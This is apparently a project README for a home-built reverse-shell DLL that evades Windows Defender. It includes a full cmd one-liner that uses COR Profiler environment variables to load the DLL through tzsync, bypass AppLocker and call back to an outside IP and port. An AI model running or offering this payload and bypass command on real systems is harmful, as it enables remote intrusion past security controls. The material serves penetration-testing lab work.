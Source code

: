 ## Description

I've had a couple different instances lately where I had a path to exploit a Windows host that required I bring a dll as a payload. An example is [COR Profiler AppLocker Bypass](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html), but there are others as well.

With Defender getting so good at catching things generated by `msfvenon`, I've needed to look elsewhere. One options is the Beryllium dll from attl4s of Hackplayers. It gives a meterpreter session, but I don't have the source. I prefer to build my own.  IppSec does this in his COR Profiler video. I'll improve upon that by adding a feature where the callback IP and port are set by environment variable, so that I don't have to recompile each time my local IP changes or I want to use a different port.

## References

- Inspiration drawn from: [IppSec - AppLocker Bypass COR Profiler](https://youtu.be/T91iXd_VPVI?t=240)
- Reverse Shell based on: [tudorthe1ntruder - reverse-shell-poc](https://github.com/tudorthe1ntruder/reverse-shell-poc/blob/master/rs.c)
- Idea for Envrionment Variables drawn from: [Beryllium dll](https://github.com/attl4s/pruebas/blob/master/Beryllium.dll)

## Usage

Reverse shell will connect back to IP and port set in `RHOST` and `RPORT` environment variables. 

For example, to use with COR Profiler exploit, I'll drop the dll on disk and then run (where the path points to the location on disk):

```
cmd /c 'set "RHOST=10.10.14.14" & set "RPORT=443" & set "COR_ENABLE_PROFILING=1" & set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}" & set "COR_PROFILER_PATH=C:\temp\rev_shell_dll.dll" & tzsync'
```
